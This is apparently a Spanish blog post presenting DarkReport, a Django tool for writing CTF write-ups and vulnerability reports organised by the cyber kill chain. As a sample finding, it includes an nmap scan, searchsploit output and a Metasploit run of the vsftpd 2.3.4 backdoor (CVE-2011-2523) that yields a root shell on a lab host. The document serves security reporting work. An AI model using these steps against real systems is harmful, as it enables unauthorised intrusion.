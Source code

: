 ```yaml
---
title: Dark Report
date: 2025-9-11 11:00:00 +0200
categories: [ciberseguridad, software]
tags: [darkreport, writeup, django]     
image:
    path: https://github.com/pmartinezrhub/DarkReport/raw/main/DarkReport/static/DarkReport/dark-report-logo.png
    alt:  
---
```

## DarkReport
Cuando las herramientas que existen no te satisfacen seguramente sea hora de que hagas la tuya propia, la que se adapta a tus necesidades, gustos 
o que tenga mejor usabilidad, rapidez, etc. Como estaba probando tantas herrientas de reporting que me ayudasen a escribir writes ups, tomar notas 
y apuntes de los retos se me ocurrió la idea de crear DarkReport. Lo he diseñado para escribir un write up de un CTF o también para crear un informe de vulnerabilidades. 

## Está basado en las 7 etapas de un ciberataque (killchain)

Como no siempre es necesario las 7 fases ni tampoco es necesario para hacer un reporte, la aplicación esta diseñada para simplificar los reportes sin perder la opción de explicar las 7 fases, cuando se crea un hallazgo algunos campos son obligatorios de otra forma la vulnerabilidad no se explica y si no se explica, no se sabría solucionar. 

- Reconocimiento, es una fase muy importante, pero no siempre necesaria, a veces nos enteramos de que la versión de algún software que estamos utilizando presenta alguna vulnerabilidad. 

- Preparación:  Que herramientas se utilizan para infectar el sistema, troyanizarlo etc, no siempre es requerido dado que por ejemplo un RCE ya nos permite ejecutar comandos en un sistema de forma remota

- Distribución. Me parece muy imporante que los reportes incluya como se entrega el payload aunque en algunos casos sea una obviedad

- Explotación. La explicación técnica de porque ocurre este error/bug o falla de seguridad.

- Instalación: No siempre necesario, pero puede describirse como que programa, malware o rat, queda instalado para ser persistente en el sistema. 

- Comando y control. Como se crea el canal de comunicación con el atacante. Puertos usados, protocolos, etc.

- Acciones en el objetivo: Que acciones puede realizar el adversario una vez tiene comando y control.

![kill chain](https://upload.wikimedia.org/wikipedia/commons/1/1d/Intrusion_Kill_Chain_-_v2.png)

## Login
Por supuesto he implementado una pantalla de login para que no cualquiera pueda entrar a la aplicación.
En el Readme del proyecto podrás encontrar las instrucciones de como cambiar la password por defecto. 
![login](https://raw.githubusercontent.com/pmartinezrhub/DarkReport/refs/heads/main/screenshots/login.png)

## Panel principal
Al entrar en la aplicación te encontrarás una vista de general con una métricas y graficos. En el panel izquierdo podemos cerrar sesión y/o crear nuevos proyectos.
![dashboard](https://raw.githubusercontent.com/pmartinezrhub/DarkReport/refs/heads/main/screenshots/dashboard.png)

### Idioma
Actualmente podemos seleccionar inglés o español, pero está pensado para traducirse a todos los idiomas posibles medidante el uso de locales. En el panel arriba a la derecha

### Resumen
Contine un resumen de la cantidad de proyectos, reportes y hallazgos. 

### Estadísticas 
Proporciona un grafico de las vulnerabilidades actuales y otro de los CVEs encontrados

## Crear proyectos
Simplemente creas un proyecto que albergará los reportes, podemos ponerle el nombre de la empresa, cliente o del sitio, etc que vamos a auditar. 

## Crear reportes
Cada reporte se crea indicando un objetivo, que puede ser un host, una api, o simplemente inventar un nombre, estos reportes contendrán los hallazgos

## Crear hallazgos
Cuando creamos un hallazgo es donde realmente vamos a idenficar la vulnerabilidad y tratar de explicarla en las 7 fases de pausible ataque. 
Se puede buscar un CVE, la aplicación buscará automáticamente el código CVE-XXX-XXX en la base de datos NITS para cargar el Ajax que nos indica que estamos introduciendo un CVE correcto. 
![find](https://raw.githubusercontent.com/pmartinezrhub/DarkReport/refs/heads/main/screenshots/find_detail_view.png)

Al pulsar el botón copiar vamos a obtener un reporte de solo el hallazgo

``` shell
⚠1:  ⚠️ Vulnerabilidad - Remote Code Execution (RCE)
⚠️ CVE: CVE-2011-2523
🔭 Reconocimiento: nmap -p- 10.88.0.2 -sV -vv
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 2.3.4
MAC Address: 72:67:68:3C:12:BD (Unknown)
Service Info: OS: Unix
💣 Preparación: └─$ searchsploit vsftpd 2.3.4
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Exploit Title                                                                                                            |  Path
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                                                                                 | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                                    | unix/remote/17491.rb
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Result
🚚 Distribución: msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
[*] 10.88.0.2:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.88.0.2:21 - USER: 331 Please specify the password.
[+] 10.88.0.2:21 - Backdoor service has been spawned, handling...
[+] 10.88.0.2:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 1 opened (10.88.0.1:42055 -> 10.88.0.2:6200) at 2025-09-08 01:06:11 +0200
whoami
root
🪲 Explotación: En julio de 2011, se descubrió que la versión 2.3.4 de vsftpd, descargable desde el sitio principal, había sido comprometida. Los usuarios que iniciaban sesión en un servidor vsftpd-2.3.4 comprometido podían usar una cara sonriente :) como nombre de usuario y obtener acceso a una consola de comandos en el puerto 6200. Esto no se debía a una vulnerabilidad de seguridad en vsftpd, sino a que alguien había subido una versión diferente de vsftpd que contenía una puerta trasera. Desde entonces, el sitio se migró a Google App Engine.
```
Ahora solo tenemos que pergarlo a nuestro write up o al informe final y añadir lo que necesitemos como marcas de markdown etc. 
Te dejo el ejemplo de como quedó después de retocarlo un mínimo aquí: [dockerlabs-firsthacking](../dockerlabs-firsthacking)

### Campos obligatorios y opcionales
Campos obligatorios:
- Tipo de vulnerabilidad - Por defecto es Information disclouser pero hay una lista de todas la vulnerabilidades conocidas.. 
- Distribución  
- Explotación
- Prioridad - Por defecto baja. Los hallazgos dentro de cada reporte se ordenarán por prioridad.

Campos opcionales:
- CVE - Como ya indique se carga con Ajax contra la API del Nist.
- Preparación
- Instalación
- Comando y control
- Acciones en los objetivos
- Fichero recon . Voy a desarrollarlo más pero de momento he dejado la posibilidad de adjuntar un fichero.

![](https://upload.wikimedia.org/wikipedia/commons/thumb/c/c2/The_Unified_Kill_Chain.png/1920px-The_Unified_Kill_Chain.png)

Por supuesto la herramienta permite modificar los hallazgos así como borrar proyectos, reportes, exportar datos, etc. 

## Desarrollo
DarkReport esta desarrollado con el framework Django (Python)

 - 1 Como cualquier software, evoluciona, irá mutandom mejorando y acepta contribuciones ideas y desarrollos, me gustaría tener opiniones para mejorar la herramienta.

 - 2 Su diseño es iconográfico, sencillo y de momento un diseño oscuro de ahí un poco su nombre. 

Puedes descargarlo y obtener más instrucciones desde de este repositorio de Github
[https://github.com/pmartinezrhub/DarkReport](https://github.com/pmartinezrhub/DarkReport)
